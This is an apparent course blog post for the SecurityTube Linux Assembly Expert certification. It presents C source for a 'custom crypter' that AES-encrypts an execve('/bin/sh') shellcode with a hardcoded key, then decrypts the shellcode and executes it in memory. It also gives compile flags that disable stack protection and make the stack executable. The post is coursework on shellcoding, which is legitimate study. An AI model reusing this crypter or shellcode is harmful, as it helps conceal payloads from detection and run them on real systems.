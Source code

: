 ```yaml
---
comments: true
date: 2014-05-12
layout: blog
title: 'SLAE Assignment 7: Custom Crypter'
category: blog
tags: [asm-x86,nasm,slae]
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

  2. Free to use any existing encryption schema
	
  3. Can use any programming language

I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

```c
//Description:	Assignment #7 (PoC of Crypter using AES-256)
//Author: 		Paolo Stivanin <https://github.com/polslinux>
//SLAE ID:		526

#include <stdio.h>
#include <string.h>
#include <gcrypt.h>
#include <stdint.h>
    
#define ENC 1

static void crypt(int, size_t, uint8_t *);

uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

#if !ENC
	uint8_t encShell[] = "";
#endif

uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
const char *key = "securitytubeSLAE";

int
main (void)
{
	int i, ag = gcry_cipher_map_name("aes256");
	size_t ln = strlen(origShell);
	uint8_t *buf = malloc(ln);

	crypt(ag, ln, buf);
	#if ENC
		for(i=0; i<ln; i++){
			printf("\\x%02x", buf[i]);
		}
		printf("\n");
	#else
		int (*ret)() = (int(*)())buf;
		ret();
	#endif

	free(buf);

	return 0;
}

static void
crypt(  int algo,
        size_t len,
        uint8_t *buf)
{
	gcry_cipher_hd_t hd;
	gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
	gcry_cipher_setkey(hd, key, 16);
	gcry_cipher_setiv(hd, iv, 16);
	gcry_cipher_setctr(hd, ctr, 16);
	#if ENC
		gcry_cipher_encrypt(hd, buf, len, origShell, len);
	#else
		gcry_cipher_decrypt(hd, buf, len, encShell, len);
	#endif
	gcry_cipher_close(hd);
}
```

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
